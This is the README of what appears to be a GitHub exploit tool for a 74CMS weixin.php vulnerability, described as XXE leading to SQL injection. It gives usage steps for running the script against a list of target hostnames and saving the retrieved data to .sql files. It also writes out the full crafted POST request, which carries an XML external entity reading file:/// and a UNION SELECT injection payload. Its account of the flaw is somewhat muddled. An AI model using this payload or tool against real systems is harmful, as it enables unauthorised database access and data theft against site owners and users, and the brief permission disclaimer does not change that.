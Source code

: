 # 74CMS weixin.php - SQL Injection
## Overview
This script is designed to test for SQL injection vulnerabilities in the 74CMS `weixin.php` file. The vulnerability arises due to the lack of customization of the `libxml_disable_entity_loader` function, allowing XML External Entity (XXE) Injection, leading to SQL injection vulnerabilities.

## Details
- **ID**: 74cms-weixin-sqli
- **EXPLOIT Author**: Pushkar Upadhyay
- **Severity**: High

## Usage
1. Clone the repository:

   ```bash
   git clone https://github.com/[your-username]/74cms-weixin-sqli.git
   cd 74cms-weixin-sqli
   ```
2. Create Virtual Environment(Optional but recommended):
   ```bash
   python -m venv venv
   source venv/bin/activate   # On Windows, use 'venv\Scripts\activate'
   ```
3. Install the required dependencies:
   ```bash
   pip install -r requirements.txt
   ```
   Create a file named `hostnames.txt` with the list of target hostnames, one per line.

4. Run the script:
   ```bash
   python sql_injection_script.py
   ```
Check the console for results. If successful, the script will save retrieved data in .sql files.

## HTTP Request
The script sends a crafted HTTP POST request to the weixin.php endpoint with the SQL injection payload.
```http
POST /plus/weixin.php?signature=da39a3ee5e6b4b0d3255bfef95601890afd80709&timestamp=&nonce= HTTP/1.1
Host: {{Hostname}}
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8"?><!DOCTYPE copyright [<!ENTITY test SYSTEM "file:///">]><xml><ToUserName>&test;</ToUserName><FromUserName>1111</FromUserName><MsgType>123</MsgType><FuncFlag>3</FuncFlag><Content>1%' union select md5({{num}})#</Content></xml>
Vulnerability Verification
```
The script verifies the vulnerability by checking the response for the presence of the MD5 hash generated from the specified number `({{num}})`.

## Important Note
Ensure that you have the necessary permissions to test for vulnerabilities on the target system. Unauthorized testing may have legal consequences.

## License
This project is licensed under the MIT License.
